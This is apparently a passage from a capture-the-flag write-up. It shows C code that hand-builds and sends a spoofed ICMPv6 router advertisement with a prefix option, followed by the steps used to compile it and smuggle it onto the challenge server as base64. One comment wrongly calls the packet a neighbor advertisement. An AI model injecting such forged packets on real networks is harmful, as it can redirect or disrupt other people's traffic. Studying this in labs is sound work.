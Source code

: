 ```c
        "\x00\x40"                  // Payload length
        "\x3a"                      // Next header ICMPv6
        "\xff"                      // Hop limit
        "\xfe\x80\x00\x00\x00\x00"  // Source
        "\x00\x00\x48\xc5\x2d\xff"  // |
        "\xfe\x9b\x8c\x8d"          // |
        "\xff\x02\x00\x00\x00\x00"  // Destination
        "\x00\x00\x00\x00\x00\x00"  // |
        "\x00\x00\x00\x01"          // |
        "\x86"                      // Neighbor advertisement
        "\x00"                      // Code 0
        "\x55\x22"                  // Checksum
        "\x40"                      // Current hop limit
        "\x08"                      // Flags
        "\x07\x08"                  // Router lifetime
        "\x00\x00\x00\x00"          // Reachable time
        "\x00\x00\x00\x00"          // Retrans timer
        "\x01\x01"                  // ICMPv6 option source MAC
        "\x4a\xc5\x2d\x9b\x8c\x8d"  // Source MAC
        "\x05\x01"                  // ICMPv6 option MTU
        "\x00\x00\x00\x00\x05\xdc"  // MTU
        "\x03\x04"                  // ICMPv6 option prefix information
        "\x40"                      // Prefix length
        "\x40"                      // Flags and stuff
        "\x00\x27\x8d\x00"          // Valid lifetime
        "\x00\x09\x3a\x80"          // Preferred lifetime
        "\x00\x00\x00\x00"          // Reserved
        "\x20\x01\x0d\xb8\x6e\x02"  // Prefix
        "\x26\x63\x00\x00\x00\x00"  // |
        "\x00\x00\x00\x00"          // |
    ;

    /* Copy the data into the buffer. */
    memcpy(buffer, data, sizeof(data));
    tx += sizeof(data);

    /* Send the buffer. */
    sendto(sockfd, buffer, tx, 0, (struct sockaddr*)&socket_address, sizeof(struct sockaddr_ll));

    return 0;
}
```

Since there were no libraries on the challenge server, I had to compile with static linking. To reduce transfer time, I gzipped it up before encoding-copy-pasting-decoding the base64 binary:

```sh
$ gcc -static main.c
$ gzip a.out
$ base64 a.out | xclip -selection clipboard
```
